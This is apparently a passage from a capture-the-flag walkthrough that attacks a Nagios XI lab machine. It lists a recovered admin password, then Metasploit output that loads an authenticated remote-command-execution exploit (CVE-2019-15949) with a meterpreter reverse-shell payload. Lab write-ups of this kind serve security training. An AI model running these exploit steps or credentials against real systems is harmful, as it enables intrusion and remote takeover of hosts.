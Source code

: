 ```
Megapixels                      : 0.980
```

[http://10.10.135.242/nagiosxi/login.php?redirect=/nagiosxi/index.php%3f&noauth=1](http://10.10.135.242/nagiosxi/login.php?redirect=/nagiosxi/index.php%3f&noauth=1)

`nagiosadmin%n3p3UQ&9BjLp4$7uhWdY`

![](./2020-10-11_09-45.png)

[Nagios XI - Authenticated Remote Command Execution (Metasploit)](https://www.exploit-db.com/exploits/48191)

```
msf5 > search CVE-2019-15949

Matching Modules
================

   #  Name                                            Disclosure Date  Rank       Check  Description
   -  ----                                            ---------------  ----       -----  -----------
   0  exploit/linux/http/nagios_xi_authenticated_rce  2019-07-29       excellent  Yes    Nagios XI Authenticated Remote Command Execution
```

```
msf5 > use 0
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf5 exploit(linux/http/nagios_xi_authenticated_rce) > show options

Module options (exploit/linux/http/nagios_xi_authenticated_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       Password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path to NagiosXI
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME   nagiosadmin      yes       Username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


```